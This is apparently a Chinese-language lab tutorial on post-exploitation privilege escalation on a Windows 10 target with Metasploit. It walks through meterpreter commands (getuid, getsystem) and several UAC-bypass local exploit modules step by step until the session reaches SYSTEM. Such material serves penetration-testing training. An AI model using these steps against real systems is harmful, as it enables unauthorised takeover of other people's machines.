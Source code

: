 # 一、环境准备

1 MSF-Metasploit Framework

2 一台windiows靶机

# 二、实战

1 提权方法（Windows）查看当前获得用户的权限   meterpreter 中输入： getuid

![1644493116225](后渗透之提权.assets/1644493116225.png)

方法一、 meterpreter中输入：getsystem

![1644493125642](后渗透之提权.assets/1644493125642.png)

方法二、使用msf模块提权

要想提权必须是已经拿到meterpreter  然后将当前meterpreter 后台 meterprerer中输入  background

1、 查看可用模块  MSF终端中输入   search bypassuac   查看提权模块

2、 选择一个适合当前系统的提权模块  我这边使用的是win10系统

那我们使用：use  exploit/windows/local/bypassuac_windows_store_reg  尝试提权

这个模块不行就换一个 use exploit/windows/local/bypassuac_sluihijack

或者  use exploit/windows/local/bypassuac_dotnet_profiler


3 配置模块使用参数   终端内输入： show options

4 可以看到需要配置 session  终端内输入：set session  {需要提权的session id}

5 执行提权  终端内输入：run

6 获取到meterpreter后 我们在终端内 输入getuid 看实际还没有提权成功  需要在还终端内在输入 getsystem 获取权限 

7 获取权限完成后 输入getuid 即可看到  已经获取到SYSTEM 最高权限了

![1644493163472](后渗透之提权.assets/1644493163472.png)

看到这个证明已经将权限提升成功

